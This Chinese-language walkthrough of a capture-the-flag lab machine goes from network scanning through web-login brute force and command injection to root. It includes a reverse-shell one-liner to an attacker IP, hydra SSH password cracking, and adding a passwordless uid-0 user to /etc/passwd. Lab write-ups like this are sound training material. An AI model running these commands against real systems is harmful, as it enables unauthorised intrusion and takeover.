# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24
nmap -sS 192.168.182.144
```



# getshell

打开网页发现一个登录框



直接暴力破解



登录成功后



可以查看文件列表之类的,下main也有语句You have selected :ls -l,这里应该是可以执行命令的,抓个包看一下



果然存在radio参数,可以控制我们所执行的命令



那么我们反弹一个shell

```
bash+-c+'bash+-i+>%26+/dev/tcp/192.168.182.137/2333+0>%261'
```



在home目录下发现jim用户,里面有个backup文件放了old-password,拿来爆破一下ssh，

```bash
hydra -l jim -P jim.txt 192.168.182.144 ssh -s 22
```

成功爆出密码



连接ssh

```
ssh jim@192.168.182.144 -p 22  
```

# 提权

使用sudo -l



搜索具备suid属性的文件

```
 find / -perm -u=s -type f 2>/dev/null
```



没有发现可利用的命令

查看一下目录下的文件



有一封邮件，去查看一下




发现了charles用户给jim用户他的密码,^xHhA&hvim0y

su charles成功登录charles用户

sudo -l



发现该用户有一个root权限的命令：teehee，查看该命令的使用方法：

有一个-a可以对指定文件进行追加，不覆盖，测试使用



然后我们就可以尝试在/etc/passwd文件下添加新的用户使这个用户具有root权限

abc::0:0:::/bin/bash

用户名：是否有密码保护：uid(root)：全称：家目录：登陆状态



成功添加

拿到flag